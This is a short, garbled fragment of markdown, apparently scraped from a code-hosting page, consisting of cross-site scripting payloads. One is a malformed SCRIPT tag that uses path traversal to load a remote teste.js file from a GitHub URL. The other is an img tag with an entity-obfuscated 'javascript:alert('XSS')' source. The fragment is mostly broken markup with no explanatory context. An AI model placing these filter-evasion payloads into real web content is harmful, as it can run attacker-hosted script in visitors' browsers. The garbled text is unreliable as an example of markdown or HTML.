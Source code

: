 ![

<SCRIPT SRC=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js?< B >
<img SRC=" &#14; javascript:alert('XSS');">

](()
